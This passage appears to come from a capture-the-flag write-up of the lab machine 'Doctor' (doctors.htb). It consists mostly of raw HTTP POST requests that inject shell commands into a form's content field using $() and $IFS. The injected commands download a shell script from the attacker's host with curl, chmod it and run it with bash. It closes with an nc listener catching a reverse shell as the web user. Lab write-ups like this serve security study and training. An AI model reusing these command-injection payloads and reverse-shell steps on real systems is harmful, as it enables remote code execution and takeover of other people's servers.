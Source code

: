 ```
Content-Length: 109
Origin: http://doctors.htb
Connection: close
Referer: http://doctors.htb/post/new
Cookie: session=.eJwlzjtuw0AMANG7bJ2CP5FcX0YgRQo2AiSAZFdB7m4FKWeq9zPW_ejzPm7P49UfY33UuA0HCm7VxZfcwBUlYisEtpSULWZmO0-rLHcF9mybM2thmtFihrpoqm6EEQ5oVWKRWgxCGlXGXOVtDRLTsd2JEVCRiKBoXJDX2ce_5i-389jX5_dnf10jIkkC3aWNK4Vpb-HZjH7JMMQbopzH7xuMYT5y.YnKQcA.butq5QzlK-cdRRfYVSm_EHiA3Tg
Upgrade-Insecure-Requests: 1

title=asd&content=http://10.10.14.6/$(/usr/bin/curl$IFS-o/tmp/shell2.sh$IFS'10.10.14.6/shell.sh')&submit=Post
```
Now, using curl, we downloaded the reverse shell (hosted on our python server) to the local box.  
Now let's add execution permissions:  
```
POST /post/new HTTP/1.1
Host: doctors.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://doctors.htb
Connection: close
Referer: http://doctors.htb/post/new
Cookie: session=.eJwlzjtuw0AMANG7bJ2CP5FcX0YgRQo2AiSAZFdB7m4FKWeq9zPW_ejzPm7P49UfY33UuA0HCm7VxZfcwBUlYisEtpSULWZmO0-rLHcF9mybM2thmtFihrpoqm6EEQ5oVWKRWgxCGlXGXOVtDRLTsd2JEVCRiKBoXJDX2ce_5i-389jX5_dnf10jIkkC3aWNK4Vpb-HZjH7JMMQbopzH7xuMYT5y.YnKQcA.butq5QzlK-cdRRfYVSm_EHiA3Tg
Upgrade-Insecure-Requests: 1

title=asd&content=http://10.10.14.6/$(chmod$IFS777$IFS/tmp/shell2.sh)&submit=Post
```
Now that permissions should be ok, we can run our shell:  
```
POST /post/new HTTP/1.1
Host: doctors.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
Origin: http://doctors.htb
Connection: close
Referer: http://doctors.htb/post/new
Cookie: session=.eJwlzjtuw0AMANG7bJ2CP5FcX0YgRQo2AiSAZFdB7m4FKWeq9zPW_ejzPm7P49UfY33UuA0HCm7VxZfcwBUlYisEtpSULWZmO0-rLHcF9mybM2thmtFihrpoqm6EEQ5oVWKRWgxCGlXGXOVtDRLTsd2JEVCRiKBoXJDX2ce_5i-389jX5_dnf10jIkkC3aWNK4Vpb-HZjH7JMMQbopzH7xuMYT5y.YnKQcA.butq5QzlK-cdRRfYVSm_EHiA3Tg
Upgrade-Insecure-Requests: 1

title=asd&content=http://10.10.14.6/$(bash$IFS/tmp/shell2.sh)&submit=Post
```
And we got a reverse shell as web user:  
```
[root@kali Doctor ]$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.209] 53020
bash: cannot set terminal process group (848): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$
```
